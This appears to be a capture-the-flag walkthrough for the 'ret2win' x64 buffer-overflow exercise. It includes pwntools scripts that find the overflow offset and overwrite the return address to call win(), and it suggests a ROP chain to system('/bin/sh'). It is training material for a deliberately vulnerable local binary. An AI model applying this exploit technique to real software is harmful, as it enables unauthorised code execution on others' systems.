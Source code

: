 # CTF: ret2win Walkthrough

A minimal x64 buffer overflow to warm up your ROP brain.

## TL;DR

- Leak offset with `pattern` or `cyclic`
- Overwrite return address with `win()` or ROP chain
- Enjoy the flag

## Setup

```bash
file ret2win
checksec --file ret2win
```

Expect `NX enabled, PIE disabled` for a classic.

## Find the offset

```bash
python3 - <<'PY'
from pwn import *
context.binary = ELF('./ret2win')
# Build a pattern or use cyclic
payload = cyclic(200)
p = process()
p.sendlineafter(b'> ', payload)
p.wait()
eip = cyclic_find(p.corefile.read(p.corefile.sp, 4))
print('offset =', eip)
PY
```

## Exploit

```python
from pwn import *
context.binary = e = ELF('./ret2win')
# Assume offset discovered above
offset = 40
payload = b'A'*offset + p64(e.symbols['win'])
io = process()
io.sendlineafter(b'> ', payload)
io.interactive()
```

If no `win()`, build a small ROP to `system('/bin/sh')`.

> Always run your exploit under `tmux` and keep `ulimit -c unlimited` for core dumps.

